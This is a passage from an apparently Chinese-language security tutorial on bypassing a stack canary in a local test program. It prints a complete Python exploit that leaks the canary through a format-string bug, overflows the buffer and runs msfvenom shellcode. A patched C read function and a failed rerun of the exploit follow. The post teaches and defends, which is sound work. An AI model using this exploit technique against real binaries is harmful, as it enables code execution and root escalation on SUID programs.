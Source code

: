   
在主函数中，我们使用stdbuf -o0命令启动目标进程，这样即使进程没有刷新输出管道，我们也能在其运行时高效地读取输出。我们还强制操作系统不阻塞输出管道，这样就不会卡住并发生死锁。接下来，我们泄漏金丝雀。如果成功，进程将被注入，并在使用 exit 函数触发后重定向执行流。如果失败，程序将退出。  
  
让我们运行该漏洞：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48taeYk9pbibPZ7GcMFkubQZibXr7yruI2zMo5JX6wbvyicC5ResFVY1dAXia2HgqaeZnicZ7gehjU1yfe4RQ/640?wx_fmt=png&from=appmsg "")  
  
太好了，我们可以绕过 Stack Canary 并执行运行“id”命令的 Shellcode。如果该程序由 root 用户拥有且具有 SUID 权限，我们就可以像上一篇博文中提到的那样获得 root 权限。  
  
以下是完整的利用代码：  
  
```
#!/usr/bin/python3import struct, os, fcntlfrom subprocess import Popen, PIPETARGET_PATH = "./test"# msfvenom -a x64 --platform linux -p linux/x64/exec -b "\x0a" -f py AppendExit=true CMD="id"buf = b""buf += b"\x48\xb8\x2f\x62\x69\x6e\x2f\x73\x68\x00\x99\x50"buf += b"\x54\x5f\x52\x66\x68\x2d\x63\x54\x5e\x52\xe8\x03"buf += b"\x00\x00\x00\x69\x64\x00\x56\x57\x54\x5e\x6a\x3b"buf += b"\x58\x0f\x05\x48\x31\xff\x6a\x3c\x58\x0f\x05"defleak_canary(p: Popen):    p.stdin.write( b"1\n" + b"%49$p\n" + b"2\n" )    p.stdin.flush()    out = b""    canary_pos = -1    n = 0        while n < 1024:        out = p.stdout.readline()        canary_pos = out.find( b"0x" )        if bool( ~canary_pos ):            break        n += 1    else:        return-1    canary = int( out[canary_pos : canary_pos+18], 16 )    return canarydefhijack_exec(p: Popen, canary):    payload = b""    payload += b"A" * 0x112                               # Fills the stack frame    payload += struct.pack( "<Q", canary ) # Places the correct canary value     payload += b"B" * 0x8                                 # Base pointer    payload += struct.pack( "<Q", 0x7fffffffdd60 + 0x40 ) # Instruction pointer    payload += b"\x90" * 0x40                             # NOPs for padding    payload += buf # Shellcode    p.stdin.write( b"1\n" )    p.stdin.write( payload + b"\n" )    p.stdin.flush()defexit_target(p: Popen):    p.stdin.write( b"4\n" )defmain():    # We use 'stdbuf -o0' to force the targeted program pipes to be flushed    # So we can read leaked canary/cookie immediately    p = Popen( ["stdbuf", "-o0", TARGET_PATH], stdin=PIPE, stdout=PIPE )    # Make stdout non-blocking when using read/readline    flags = fcntl.fcntl( p.stdout, fcntl.F_GETFL )    fcntl.fcntl( p.stdout, fcntl.F_SETFL, flags | os.O_NONBLOCK )    canary = leak_canary( p )        if bool( ~canary ):        print( "Canary : 0x%x" % canary )        hijack_exec( p, canary )        exit_target( p )        out, _ = p.communicate()        print( out.decode() )    else:        exit_target( p )        print( "[-] Failed to leak the canary" )if __name__ == '__main__':    main()
```  
  
  
因此，必须按如下方式修改读取函数，以防止发生此类泄漏：  
  
```
#include<stdbool.h>bool g_bCanRead = false;voidbuf_write(Buffer *pBuf, char *cpData, size_t n){    if ( pBuf->nSize )         pBuf->data[ pBuf->nSize-1 ] = ' ';    memcpy( pBuf->data + pBuf->nSize, cpData, n );    pBuf->nSize += n;    g_bCanRead = true;}voidbuf_read(Buffer *pBuf){    if ( !pBuf->cpReadData )        pBuf->cpReadData = pBuf->data;    if ( !g_bCanRead ) {        fputs( "[-] Cannot Read", stderr );        return;    }    printf( "%s", pBuf->cpReadData );    pBuf->cpReadData += pBuf->nSize;    g_bCanRead = false;}voidbuf_readall(Buffer *pBuf){    printf( "%s", pBuf->data );}
```  
  
  
printf此修改通过以安全的方式使用该函数而不是直接将用户输入作为格式传递，并对函数施加限制buf_read以防止过度读取缓冲区，从而修复了程序中的内存泄露漏洞。  
  
```
┌──(user㉿host)-[~]└─$ python3 exploit.py                              [-] Failed to leak the canary
```  
  
  